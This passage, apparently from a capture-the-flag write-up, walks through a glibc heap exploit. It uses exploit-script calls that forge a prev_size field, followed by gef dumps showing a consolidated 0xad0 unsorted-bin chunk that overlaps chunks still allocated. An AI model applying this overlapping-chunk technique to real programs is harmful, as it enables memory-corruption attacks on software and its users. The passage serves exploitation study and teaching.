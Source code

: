 ```py
free(3)
add(0x18,p64(0x00) *2 + p64(0x5d0),0)
```

The chunk layout in the memory will be:-

```r
gef➤  x/40xg 0x0000555df391c810
0x555df391c810:	0x0000000000000000	0x0000000000000000
0x555df391c820:	0x00000000000005d0	0x0000000000000500
```

So, now when we will free the `chunk[0]` and `chunk[4]`:-

```py
free(0)
free(4)
```

Running so:-

```r
gef➤  heap bins unsorted
────────────────────────────────── Unsorted Bin for arena 'main_arena' ──────────────────────────────────
[+] unsorted_bins[0]: fw=0x55dd71e62250, bk=0x55dd71e62250
 →   Chunk(addr=0x55dd71e62260, size=0xad0, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
gef➤  p/x 0x500 + 0x5d0
$4 = 0xad0
gef➤  
```

Now, the total size of the chunk belongs to the `unsorted` bin is `0xad0` is the summation of the `0x500` and the size we gave it as the `0x5d0`, hence `0xad0`. But at the same time when we see the whole heap layout, it turns out to be like this:-

```r
gef➤  heap chunks
Chunk(addr=0x55dd71e62010, size=0x250, flags=PREV_INUSE)
    [0x000055dd71e62010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x55dd71e62260, size=0xad0, flags=PREV_INUSE)
    [0x000055dd71e62260     a0 6c 50 9e d4 7f 00 00 a0 6c 50 9e d4 7f 00 00    .lP......lP.....]
Chunk(addr=0x55dd71e62d30, size=0x20, flags=)
    [0x000055dd71e62d30     61 61 61 61 61 61 61 61 00 00 00 00 00 00 00 00    aaaaaaaa........]
Chunk(addr=0x55dd71e62d50, size=0x202c0, flags=PREV_INUSE)  ←  top chunk
gef➤  

```

If you pay attention, we had almost 6 chunks allocated in which we `free`'d 2 of them, that leaves the 4 of them allocated, but as the `gef` output we can definitely see only two chunks here referenced, first is the one we `free`'d and went into the unsorted bin and other one is the last chunk we allocated to prevent the `top_chunk` consolidation. But when we look at the gloabal array which keeps the track of the allocated chunks,

```r
gef➤  x/30xg 0x55dd713f3050
0x55dd713f3050:	0x0000000000000000	0x0000000000000000
0x55dd713f3060:	0x0000000000000000	0x000055dd71e62760
0x55dd713f3070:	0x000055dd71e627d0	0x000055dd71e62810
0x55dd713f3080:	0x0000000000000000	0x000055dd71e62d30
```
